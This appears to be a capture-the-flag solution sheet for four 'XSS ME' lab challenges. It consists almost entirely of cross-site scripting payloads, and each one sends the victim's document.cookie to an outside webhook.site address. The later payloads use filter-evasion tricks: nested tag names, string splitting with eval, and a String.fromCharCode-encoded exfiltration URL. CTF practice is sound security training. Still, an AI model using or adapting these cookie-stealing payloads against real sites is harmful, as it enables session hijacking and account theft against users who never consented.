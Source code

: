 # XSS ME 1 

> ``` https://nopsctf-xss-lab.chals.io/ ```

```html
<script>location.href="https://webhook.site/92f96061-55b6-421d-a882-068b0d8c7677/"+document.cookie</script>
```
# XSS ME 2

> ``` https://nopsctf-xss-lab.chals.io/bf2a73106a3aa48bab9b8b47e4bd350e ```

```html
<iframe src="/" onload=location.href="https://webhook.site/92f96061-55b6-421d-a882-068b0d8c7677/"+document.cookie>
```

# XSS ME 3

> ``` https://nopsctf-xss-lab.chals.io/3e79c8a64bd10f5fa897b7832384f043 ```

```html
<scrscriptipt>location.href="https:"+"//webhook.site/92f96061-55b6-421d-a882-068b0d8c7677/"+eval("docu" + "ment.coo" + "kie")</scrscriptipt>
```

# XSS ME 4

> ``` https://nopsctf-xss-lab.chals.io/f40e749b80cff27f8e726b2a95740dd6 ```

```html
<iimgmg src=x onerror=location.href=eval(String.fromCharCode(34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,50,102,57,54,48,54,49,45,53,53,98,54,45,52,50,49,100,45,97,56,56,50,45,48,54,56,98,48,100,56,99,55,54,55,55,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))>
```